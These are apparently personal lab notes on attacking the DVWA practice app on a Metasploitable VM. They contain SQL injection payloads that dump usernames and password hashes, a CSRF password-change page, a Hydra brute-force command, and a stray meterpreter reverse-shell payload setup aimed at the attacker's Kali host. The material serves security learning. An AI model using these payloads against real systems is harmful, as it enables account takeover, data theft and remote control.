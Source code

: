 ### sql inject
- http://<metasploitable ip>/dvwa/vulnerabilities/sqli
- error based sqli when we get error msg
  - 2' and '1'='1
  - 2' order by 1 -- '
  - 2' order by 2 -- '
  - 2' order by 3 -- ' - return error so there is only 2 columns
  - 2' union select database(),user() -- ' return
      - ID: 2' union select database(),user() -- '
      - First name: dvwa -> db name
      - Surname: root@localhost -> 
  - 2' union select schema_name, 2 from information_schema.schemata -- '
    -> return all DB infos
  - 2' union select table_name, 2 from information_schema.tables where table_schema = 'dvwa' -- '
    -> get list of tables for db=dvwa
  - 2' union select column_name, column_type from information_schema.columns where table_schema = 'dvwa' and table_name = 'users' -- '
    -> get list of all column (including user and password column)
  - 2' union SELECT concat(user_id,':',first_name,':',last_name), concat(user,':',password) from dvwa.users -- ' 
    -> get list of username-hashed passw, it looks like md5hash, use md5 decoder to decode password, if it's a simple password it's easy to find

- blind sqli when no error displayed

### CSRF (cross side request forgery)
- exploit any web request in current web session with vulnerability = exec payload on other website on current web session
- http://<metasploitable ip>/dvwa/vulnerabilities/csrf view page source and copy form fiv, to create a new html page and serve it with apache2 kali instance (/var/www/html), access it via http://localhost/csrf.html
```
    <form action="http://<metasploitable ip>/dvwa/vulnerabilities/csrf/" method="GET">    New password:<br>
    <input type="password" AUTOCOMPLETE="off" name="password_new" value="new_psw"><br>
    Confirm new password: <br>
    <input type="password" AUTOCOMPLETE="off" name="password_conf" value="new_psw">
    <br>
    <input type="submit" value="Change" name="Change">
    </form>
```
- action : redirect
- field_name : add value with html value balise
- access http://localhost/csrf.html to change psw and login back to app with new psw to test it
- redo the same operation with full html page code to look similar : http://<kali ip>/csrf_full.html CSS file missing
- add css file in csrf html page :
  - get css files +js file + ico files + copy them in /var/www/html update their paths in csrf_full.html : got to page source, click css file link and copy them

### BruteForce with Hydra
- general syntax : `└─$ hydra <metasploitable ip> http-form-post "/dvwa/login.php:<user field name>=^USER^:<psw field name>=^PASS^&<submit button name>=<submit button type>:<option add failed login string to search for>"`
- fields names are to be found in page source
- login page :
```
┌──(kali㉿kali)-[~]
└─$ hydra <metasploitable ip>  http-form-post "/dvwa/login.php:username=^USER^&password=^PASS^&Login=submit:Login failed"  -L usernames.txt -P passwords.txt 
```
- http://<metasploitable ip>/dvwa/vulnerabilities/brute page
  - get cookie with burpsuite
```
```

[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate